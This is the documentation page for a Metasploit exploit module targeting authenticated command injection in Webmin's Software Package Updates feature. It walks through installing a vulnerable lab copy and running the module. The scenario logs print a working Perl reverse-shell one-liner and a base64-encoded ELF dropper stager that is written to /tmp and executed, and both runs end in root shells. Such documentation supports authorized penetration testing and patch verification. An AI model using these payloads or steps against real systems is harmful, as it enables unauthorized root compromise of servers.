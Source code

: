 ## Vulnerable Application

This module exploits an arbitrary command injection in Webmin versions prior to
1.997.

Webmin uses the OS package manager (`apt`, `yum`, etc.) to perform package
updates and installation. Due to a lack of input sanitization, it is possibe to
inject arbitrary command that will be concatenated to the package manager call.

This exploit requires authentication and the account must have access to the
Software Package Updates module.

## Instalation

### Ubuntu
- Download a vulnerable version: http://prdownloads.sourceforge.net/webadmin/webmin_1.996_all.deb
- Install it along with its dependencies
```
apt-get install libauthen-pam-perl
dpkg -i ./webmin_1.996_all.deb
```

## Setup
- Go to `https://<target IP>:10000/`
- Login as `root` with the OS password
- Create a new user:
  `Webmin > Webmin Users > Create a new privileged user > enter the username and password > click Create`
- Setup permissions
  `Click on the username > Available Webmin modules > select "Software Package Updates" in the System module list > Save`

## Verification Steps
1. Install and setup the application
1. Start msfconsole
1. Do: `use exploit/linux/http/webmin_package_updates_rce`
1. Do: `run lhost=<local IP> rhosts=<target IP> username=<username> password=<user password>`
1. You should get a shell.

## Options

### TARGETURI

Set this to the Webmin base path. The default is `/`.

### USERNAME

The account username to use.

### PASSWORD

The account password.

## Scenarios

### Webmin 1.996 on Ubuntu 18.04
- Target 0 (`Unix In-Memory`)
```
msf6 exploit(linux/http/webmin_package_updates_rce) > run lhost=192.168.0.2 verbose=true rhosts=192.168.0.23 username=msfuser password=123456

[+] perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.0.2:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Webmin 1.996 detected
[+] Webmin 1.996 is a supported target
[+] The target appears to be vulnerable.
[*] Attempting login
[+] Logged in!
[*] Sending payload
[*] Command shell session 4 opened (192.168.0.2:4444 -> 192.168.0.23:51860) at 2022-08-03 11:26:01 +0200

id
uid=0(root) gid=0(root) groups=0(root)

cat /etc/issue
Ubuntu 18.04.6 LTS \n \l
```

- Target 1 (`Linux Dropper`)
```
msf6 exploit(linux/http/webmin_package_updates_rce) > run lhost=192.168.0.2 verbose=true rhosts=192.168.0.23 username=msfuser password=123456

[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Webmin 1.996 detected
[+] Webmin 1.996 is a supported target
[+] The target appears to be vulnerable.
[*] Attempting login
[+] Logged in!
[*] Sending payload
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXMCokAFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/abOFM.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/IBkCa' < '/tmp/abOFM.b64' ; chmod +x '/tmp/IBkCa' ; '/tmp/IBkCa' ; rm -f '/tmp/IBkCa' ; rm -f '/tmp/abOFM.b64'"]
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3020772 bytes) to 192.168.0.23
[*] Meterpreter session 5 opened (192.168.0.2:4444 -> 192.168.0.23:51870) at 2022-08-03 11:26:51 +0200
[*] Command Stager progress - 100.00% done (823/823 bytes)

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.0.23
OS           : Ubuntu 18.04 (Linux 5.4.0-122-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
